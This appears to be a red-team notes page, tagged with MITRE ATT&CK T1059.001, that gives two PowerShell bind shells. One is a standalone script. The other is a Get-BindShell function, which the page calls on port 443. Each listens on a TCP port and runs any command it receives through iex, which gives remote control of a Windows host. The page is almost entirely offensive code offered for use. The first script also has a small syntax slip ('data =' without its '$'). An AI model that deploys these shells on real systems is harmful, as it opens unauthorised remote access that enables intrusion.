 # Powershell Bind Shells

# Overview
MITRE ATT&CK 
Tactic: Execution
Technique ID (2023): T1059.001
Technique: Command and Scripting Interpreter
Sub-Technique: Powershell

tags: #execution #powershell #commandScriptingInterpreter #windows #bindShell 

## Powershell Bind Shell
```pwsh
$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',443);
$listener.start();
$client = $listener.AcceptTcpClient();
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {
	data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
	$sendback = (iex $data 2>&1 | Out-String );
	$sendback2 = $sendback + 'PS' + (pwd).Path + '> ';
	$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
	$stream.Write($sendbyte,0,$sendbyte.Length);
	$stream.Flush()
}
$client.Close()
$listener.Stop()
```

## Powershell Bind Shell Function
```pwsh
Function Get-BindShell ($ip, $port) {
	$listener = New-Object System.Net.Sockets.TcpListener($ip,[int]$port);
	$listener.start();
	$client = $listener.AcceptTcpClient();
	$stream = $client.GetStream();
	[byte[]]$bytes = 0..65535|%{0};
	while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {
		$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
		$sendback = (iex $data 2>&1 | Out-String );
		$sendback2 = $sendback + 'PS' + (pwd).Path + '> ';
		$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
		$stream.Write($sendbyte,0,$sendbyte.Length);
		$stream.Flush()
	}
	$client.Close()
	$listener.Stop()
}
Get-BindShell -ip 0.0.0.0 -port 443
```

